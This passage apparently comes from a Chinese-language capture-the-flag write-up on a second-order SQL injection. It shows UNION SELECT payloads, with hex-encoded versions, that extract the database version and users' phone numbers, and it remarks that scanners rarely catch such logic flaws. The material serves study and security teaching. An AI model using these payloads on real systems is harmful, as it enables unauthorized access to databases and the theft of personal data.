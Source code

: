 写一个`UNION`试试吧~ 

`123456' UNION SELECT version() FROM dual where 's'='s`  => `0x3132333435362720554e494f4e2053454c4543542076657273696f6e28292046524f4d206475616c207768657265202773273d2773`

![check.php](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x09.png)

OK，数据版本出来了，继续注入表以及数据库名。 但是当时我没有去选择这个办法，而是通过搜集的表单信息来当做字段名，这样节省时间，碰运气。

`123456' UNION SELECT phone FROM user where 'admin'='admin` => `0x3132333435362720554e494f4e2053454c4543542070686f6e652046524f4d2075736572207768657265202761646d696e273d2761646d696e`

![check.php](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/0x10.png)

## 0x03 过程分析

这种逻辑型的二次SQL注入，的确是扫描器、工具难以发现，如果再加个验证码，难度会更高一些。

寻找突破点还是要积累更多的经验

## 0x04 过程演示

<p>
<video src="http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-13/CTF.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>
</p>





